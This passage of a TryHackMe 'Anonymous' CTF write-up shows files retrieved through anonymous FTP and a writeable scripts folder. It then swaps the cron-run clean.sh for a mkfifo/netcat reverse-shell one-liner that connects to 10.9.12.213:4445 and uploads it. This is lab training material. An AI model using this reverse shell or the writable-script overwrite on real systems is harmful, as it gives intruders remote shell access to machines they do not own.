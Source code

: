1. removed_files.log
1. to_do.txt

### to-do.txt
```
~/CTF/tryhackme/anonymous$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
```
### clean.sh
```
~/CTF/tryhackme/anonymous$ cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
### removed_files.log
```
~/CTF/tryhackme/anonymous$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
So it looks like we have some comments about anonymous logins being dangerous, a bash cleaning file that then looks to update the removed files log. More likely a cronjob.

If we remember the comments about a writeable file:
```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
```
Lets check out if we can set up a reverse bash shell if we can amend/overwrite the clean file.

```
/CTF/tryhackme/anonymous$ cat clean.sh 
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.12.213 4445 >/tmp/f
```
Right, on our ftp server, lets transfer that from our directory to theirs. First change to the scripts directory.

```
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1806 Sep 07 19:17 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```
Now upload our file.
```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
```